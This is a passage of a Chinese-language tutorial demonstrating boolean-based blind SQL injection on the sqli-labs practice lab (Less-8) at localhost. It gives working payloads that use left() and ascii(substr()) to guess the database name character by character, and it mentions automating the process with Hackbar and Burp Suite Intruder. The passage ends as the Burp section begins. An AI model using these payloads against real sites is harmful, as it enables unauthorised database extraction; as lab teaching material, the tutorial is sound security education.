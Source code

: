 ###  c. 靶场演示    
  
此次实验演示的靶场是`sqli-labs-master`的**第8关**。  
  
我们先来看看靶场环境的正常页面  
  
```sql
http://localhost/sqli-labs-master/Less-8/?id=1
```  
  
页面显示如下
  
<img src="https://s1.ax1x.com/2020/10/11/0gwmhF.png">  
  
然后加个引号,返回的就是错误页面  
  
```sql
http://localhost/sqli-labs-master/Less-8/?id=1
```  
  
<img src="https://s1.ax1x.com/2020/10/11/0gwvuR.png">  
  
现在我们就可以开始布尔注入了，首先先尝试一个使用`left`方法对数据库名进行注入。  
  
```
http://localhost/sqli-labs-master/Less-8/?id=1' and left((select database()),1)='a'--+
```  
  
页面返回`Wrong`页面，这就说明，数据库名的第一个字母并不是`a`。  
  
因为我们已知`sqli-labs`的数据库为`security`，所以我们直接测试。  
  
```
http://localhost/sqli-labs-master/Less-8/?id=1' and left((select database()),1)='s'--+
```  
果然返回了`True`页面，继续尝试第二个字母。  
      
```
http://localhost/sqli-labs-master/Less-8/?id=1' and left((select database()),2)='e'--+
```  
  
返回了`True`页面，依次类推，可以暴破出数据库名。  
  
要进一步的进行注入，是需要把`select database()`语句换成其他语句，就可以对表名，列名以及数据进行暴破。语句可以通过`Hackbar`自动化生成。   
  
当然暴破总不能纯手工，那样耗费时间精力，效率不高。可以使用`Burpsuite`的`Intruder`模块进行半自动化注入。这个后面会讲到。  
  
我们继续探究以下`substr`在注入中使用，很多人问为什么要将截取的数据转化为`ascii`值。这是因为很多网站对`SQL`注入是做了防护的，而`ASCII`码可以很好地对`'`进行绕过  
  
<img src="https://s1.ax1x.com/2020/10/11/0grnV1.png">  
    
上图是一张`ascii`码的表，数据库各种元素的名字通常只有数字与字母组成，所以我们进行暴破的时候只需要从**48到122**之间暴破就可以了。  
  
```
http://localhost/sqli-labs-master/Less-8/?id=1' and  ascii(substr((select database()),1,1))=115--+
```  
  
### d.使用`burpsuite`进行暴破  

 
`burpsuite`用于暴破的模块是`Intruder`。  
